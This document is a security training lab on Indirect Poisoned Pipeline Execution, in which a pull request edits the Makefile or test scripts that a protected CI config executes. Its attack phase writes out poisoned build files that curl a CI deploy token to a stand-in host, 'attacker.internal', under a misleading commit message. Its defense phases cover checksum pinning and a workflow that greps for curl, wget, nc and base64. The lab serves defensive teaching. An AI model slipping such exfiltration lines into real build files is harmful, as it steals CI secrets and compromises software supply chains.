

# Lab 2.3: Indirect Poisoned Pipeline Execution

<div class="lab-meta">
  <span>~35 minutes</span>
  <span>Intermediate</span>
  <span>Prerequisites: <a href="2.2-direct-ppe.md">Lab 2.2</a></span>
</div>

After Direct PPE ([Lab 2.2](2.2-direct-ppe.md)) became well-known, many organizations locked down their CI configuration files -- requiring code review, CODEOWNERS approval, or running the target branch's CI config instead of the PR's version. Attackers adapted.

Indirect PPE exploits the fact that CI pipelines reference external files: Makefiles, shell scripts, test configuration files, Dockerfiles, and dependency manifests. Even if the CI config itself is protected, the files it executes are often not. A PR that modifies a `Makefile` or `scripts/test.sh` does not touch the CI config at all -- but the pipeline still runs the modified file.

In 2023, security researchers found Indirect PPE vulnerabilities in CI pipelines of major organizations, including one that used `make test` in its protected CI config but allowed any contributor to modify the Makefile.

---

### Understanding the Attack Flow



---

## Environment

| Service | Address | Description |
|---------|---------|-------------|
| Gitea | `gitea:3000` | Git server hosting `acme-webapp` with Makefile-based CI |
| Workstation | (your shell) | Development environment |

## Connect to the Workstation

```bash
./weaklink shell
```

<div class="terminal-embed">
  <iframe src="http://localhost:7681" title="WeakLink Workstation Terminal"></iframe>
</div>

---

!!! info "Phase 1: UNDERSTAND -- CI References External Files"

    **Goal:** See that a protected CI config still executes unprotected files.

### Step 1: Examine the CI configuration

```bash
cd /repos/acme-webapp
cat .gitea/workflows/ci.yml
```

The CI config runs:

- `make test` -- executes the `Makefile`
- `bash scripts/run-tests.sh` -- executes a shell script

These commands are in the CI config, but the actual code they execute lives in `Makefile` and `scripts/run-tests.sh`.

### Step 2: Examine the referenced files

```bash
cat Makefile
cat scripts/run-tests.sh
```

These are normal build and test files. But they are NOT protected by CODEOWNERS or branch protection -- any PR can modify them.

### Step 3: Map the attack surface

The CI config is protected, but it references:

| File | CI Command | Protected? |
|------|-----------|------------|
| `Makefile` | `make test`, `make build` | No |
| `scripts/run-tests.sh` | `bash scripts/run-tests.sh` | No |
| `requirements.txt` | `pip install -r requirements.txt` | No |

A PR modifying any of these files can inject code into the pipeline without touching the CI config.

### Step 4: Check that secrets are in scope

```bash
grep -E 'secrets\.|env:' .gitea/workflows/ci.yml
```

The test job has `DEPLOY_TOKEN` in its environment. Any code executed by `make test` can read this secret.

---

!!! warning "Phase 2: BREAK -- Poisoning Through the Makefile"

    **Goal:** Modify the Makefile to exfiltrate secrets without changing the CI config.

### Step 1: Create an attack branch

```bash
git checkout -b feature/improve-tests
```

### Step 2: Poison the Makefile

```bash
cat > Makefile << 'EOF'
.PHONY: test build deploy clean

test:
	@echo "Running test suite..."
	python test_app.py
	@# Indirect PPE: exfiltrate secrets via the Makefile
	@echo "DEPLOY_TOKEN=$${DEPLOY_TOKEN}" > /tmp/indirect-ppe-pwned
	@curl -sf "http://attacker.internal/steal?token=$${DEPLOY_TOKEN}" || true

build:
	@echo "Building application..."
	mkdir -p dist
	cp app.py dist/
	tar czf webapp.tar.gz dist/

deploy:
	@echo "Deploying..."

clean:
	rm -rf dist/ webapp.tar.gz
EOF
```

### Step 3: Submit the PR

```bash
git add Makefile
git commit -m "Improve test coverage and build process"
git push origin feature/improve-tests
```

### Step 4: Observe the attack

The PR only modifies `Makefile` -- the CI config is untouched. A code reviewer looking at the CI config sees no changes. But when the pipeline runs `make test`, it executes the poisoned Makefile which:

1. Runs the legitimate tests (so CI passes)
2. Writes `DEPLOY_TOKEN` to `/tmp/indirect-ppe-pwned`
3. Sends the token to the attacker via curl

The pipeline config is protected. The CI diff is clean. But the attack succeeds.

### Step 5: The script vector

The same attack works with `scripts/run-tests.sh`:

```bash
cat > scripts/run-tests.sh << 'EOF'
#!/bin/bash
echo "[test] Running unit tests..."
python test_app.py
# Indirect PPE via test script
echo "${DEPLOY_TOKEN}" | base64 | xargs -I{} curl -sf "http://attacker.internal/exfil/{}" || true
echo "[test] All checks passed."
EOF
```

Now the test script also exfiltrates. The PR modifies two files that look like normal development changes -- no CI config touched.

---

!!! success "Phase 3: DEFEND -- Verifying CI-Referenced File Integrity"

    **Goal:** Pin referenced files by hash and verify integrity before execution.

### Fix 1: Generate checksums for CI-referenced files

```bash
cd /repos/acme-webapp
git checkout main

# Restore clean Makefile and test script
cp /lab/src/repo/Makefile .
cp /lab/src/repo/scripts/run-tests.sh scripts/

# Generate checksums
sha256sum Makefile scripts/run-tests.sh > .ci-checksums
cat .ci-checksums
```

### Fix 2: Apply the hardened CI config

```bash
cp /lab/src/repo/.gitea/workflows/ci-hardened.yml .gitea/workflows/ci.yml
cat .gitea/workflows/ci.yml
```

The hardened config:

1. **Verifies checksums before execution** -- a `verify-integrity` job runs first and checks that `Makefile` and `scripts/run-tests.sh` match their known-good hashes
2. **Fails the pipeline if files are modified** -- the test and build jobs depend on the integrity check
3. **Does not run on PRs** -- PR validation uses a separate secret-free workflow
4. **Secrets scoped to deploy** -- only the deploy step has access to `DEPLOY_TOKEN`

### Fix 3: Commit the defense

```bash
git add -A
git commit -m "Pin CI-referenced files by hash to prevent Indirect PPE"
git push origin main
```

### Additional defenses

1. **CODEOWNERS for ALL CI-referenced files**: Not just the CI config, but Makefiles, scripts, Dockerfiles, and test configs
2. **Separate PR and push builds**: PR builds never have secrets, so Indirect PPE yields nothing
3. **Inline CI logic**: Move critical steps into the CI config itself instead of referencing external files
4. **Read-only checkout**: If CI only needs to read files (not execute them), use read-only permissions

### Step 4: Final verification

```bash
weaklink verify 2.3
```

---

!!! danger "Phase 4: DETECT -- Catching Indirect PPE"

    **Goal:** Detect when CI-referenced files are modified to inject malicious commands.

### SIEM / Log Indicators

Indirect PPE is harder to detect than Direct PPE because the CI config diff is clean. Detection must focus on the files that CI executes.

**What to look for:**

- PRs that modify files referenced by CI (Makefile, scripts/, test configs) while NOT modifying the CI config
- New `curl`, `wget`, `nc`, `base64`, or `env` commands appearing in Makefiles or build scripts
- Build logs showing network connections from make/test steps
- Checksum mismatches in CI integrity verification steps

### MITRE ATT&CK Mapping

| Technique | ID | Relevance |
|-----------|-----|-----------|
| **Supply Chain Compromise: Compromise Software Supply Chain** | [T1195.002](https://attack.mitre.org/techniques/T1195/002/) | Attacker modifies build scripts referenced by CI to inject malicious steps |
| **Command and Scripting Interpreter: Unix Shell** | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Malicious shell commands are injected via Makefile or build scripts |

---

!!! tip "SOC Relevance"

    **Alerts you will see:**

    - "Makefile modified with network commands in PR" (git diff analysis)
    - "CI checksum verification failed" (build log monitoring)
    - "Outbound HTTP from build step to unfamiliar host" (network monitoring)

    **Why this matters to your SOC:** Indirect PPE bypasses the most common PPE defense (protecting CI configs). Organizations that thought they were safe because they locked down `.github/workflows/` are still vulnerable if their Makefiles, Dockerfiles, and test scripts are unprotected.

    **Triage workflow:**

    1. **Map the CI execution chain** -- identify every file the CI config references (make targets, scripts, Dockerfiles)
    2. **Check the PR diff** -- were any of these referenced files modified?
    3. **Inspect the modifications** -- do they add network commands, file writes to /tmp, or environment variable access?
    4. **Check build logs** -- did the build make unexpected outbound connections?
    5. **If confirmed: rotate secrets** -- same as Direct PPE, any secret in scope during the build is compromised

    **False positive rate:** Medium. Developers legitimately modify Makefiles and build scripts. The key signal is the combination of: (a) modifying CI-referenced files, (b) adding commands that access environment variables or make network connections, (c) in a PR from an external or new contributor.

---

!!! example "CI Integration"

    **`.github/workflows/indirect-ppe-check.yml`:**

    ```yaml
    name: Indirect PPE Prevention

    on:
      pull_request:
        paths:
          - "Makefile"
          - "scripts/**"
          - "Dockerfile*"
          - "*.sh"

    jobs:
      check-referenced-files:
        runs-on: ubuntu-latest
        steps:
          - uses: actions/checkout@v4
            with:
              fetch-depth: 0

          - name: Scan for suspicious commands in CI-referenced files
            run: |
              echo "--- Scanning files referenced by CI for suspicious commands ---"
              SUSPICIOUS=0

              for f in Makefile scripts/*.sh Dockerfile*; do
                [ -f "$f" ] || continue

                # Check diff for network/exfil commands
                DIFF=$(git diff origin/main...HEAD -- "$f" || true)
                if echo "$DIFF" | grep -qE '^\+.*(curl|wget|nc |ncat|python -c|base64|/tmp/|env\b)'; then
                  echo "::warning file=$f::Suspicious command added to CI-referenced file"
                  echo "$DIFF" | grep -E '^\+.*(curl|wget|nc |ncat|python -c|base64|/tmp/|env\b)'
                  SUSPICIOUS=$((SUSPICIOUS + 1))
                fi
              done

              if [ "$SUSPICIOUS" -gt 0 ]; then
                echo "::error::$SUSPICIOUS CI-referenced file(s) have suspicious changes."
                echo "These files are executed by CI and can be used for Indirect PPE."
                echo "Require additional review from a security-aware maintainer."
                exit 1
              fi
              echo "PASS: No suspicious changes in CI-referenced files."
    ```

---

## What You Learned

1. **Protecting CI configs is not enough** -- Indirect PPE attacks the files CI executes, not the CI config itself.
2. **Makefiles, scripts, and Dockerfiles are part of the CI attack surface** -- anything referenced by CI can be weaponized.
3. **Hash-based integrity verification catches modifications** -- checksum CI-referenced files and verify before execution.
4. **The PR diff hides the attack** -- CI config is untouched, so reviewers may not notice the malicious changes in build files.
5. **Defense in depth is required** -- combine CODEOWNERS, checksums, secret scoping, and separate PR workflows.

## Further Reading

- [Cider Security: Indirect Poisoned Pipeline Execution](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/)
- [Aqua Security: CI/CD Pipeline Attacks](https://blog.aquasec.com/github-actions-security-ci-cd)
- [OWASP Top 10 CI/CD: Poisoned Pipeline Execution](https://owasp.org/www-project-top-10-ci-cd-security-risks/)
